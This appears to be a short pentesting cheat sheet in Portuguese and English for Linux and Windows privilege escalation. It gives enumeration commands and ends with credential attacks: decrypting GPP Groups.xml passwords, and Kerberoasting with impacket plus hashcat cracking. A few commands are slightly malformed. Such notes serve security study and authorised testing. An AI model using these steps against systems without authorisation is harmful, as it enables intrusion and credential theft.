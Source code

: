 ```yaml
---
tags:
  - EXPLOITATION
---
```

# Linux
#Primeiro, você pode executar o script abaixo. É importante que você leia a saída deste script.

- [LinEnum](https://github.com/rebootuser/LinEnum/blob/master/LinEnum.sh)

### Kernel e SO
```shell
uname -a 
cat /etc/issue 
cat /etc/redhat-release #//Redhat 
cat /etc/lsb-release #//Debian
```
### Misconfiguration sudo;
```shell
sudo -l 
sudo -u scriptmanager bash //Change user with "sudo" command #Detection of programs with SUID bits; 
find / -perm +4000 -user root -type f -print 2>/dev/null
```
### Scheduled jobs;
```shell
crontab -l
cat /etc/crontab
```
### Detecção de serviços rodando pelo root
```shell
ps aux | grep root
```
### Detecção de aplicações instaladas
```shell
ls -alh /usr/bin/ 
ls -alh /sbin/ 
dpkg -l
```
### Para mais enumerações manuais
https://blog.g0tmi1k.com/2011/08/basic-linux-privilege-escalation/

# Windows
### Para detectar patches perdidos
https://github.com/AonCyberLabs/Windows-Exploit-Suggester/blob/master/windows-exploit-suggester.p
### SO
```powershell
systeminfo 
wmic qfe
```
### Users
```powershell
whoami 
echo %USERNAME% 
net users 
net user <username> 
whoami /priv 
net localgroup
```
### Rede
```powershell
ipconfig /all 
route print 
arp -A
netstat -ano
```
### Programas
```powershell
dir /a "C:\Program Files" 
dir /a "C:\Program Files (x86)" 
reg query HKEY_LOCAL_MACHINE\SOFTWARE
```
### Unquoted Service Patch
```powershell
wmic service get name displayname,pathname,startmode 2>nul |findstr /i "Auto" 2>nul |findstr /i /v "C:\Windows\\" 2>nul |findstr /i /v """
```
### Scheduled task
```powershell
schtasks /query /fo LIST 2>nul | findstr TaskName 
dir C:\windows\tasks
```

### Mais Links
https://www.absolomb.com/2018-01-26-Windows-Privilege-Escalation-Guide/

https://www.youtube.com/watch?v=Fms9UuW05DA&list=PLi0kul0fEhZ9LNZN0-A3nX2xcx2R70JwN
### Groups.xml
```powershell
get Groups.xml 
cat Groups.xml (name, password) 
gpp-Decrypt password #decryp_password 
smbclient -W <domain_name> -U name //<domain_name>/share_name
```
### SPN
git https://github.com/SecureAuthCorp/impacket.git 
```powershell
python GetUsersSPN.py <domain_name>/user:decrypt_password -dc-ip <victim_ip> - request 
hashcat -m 13100 -a 0 hash.txt /usr/share/wordlists/rockyou.txt --force
```

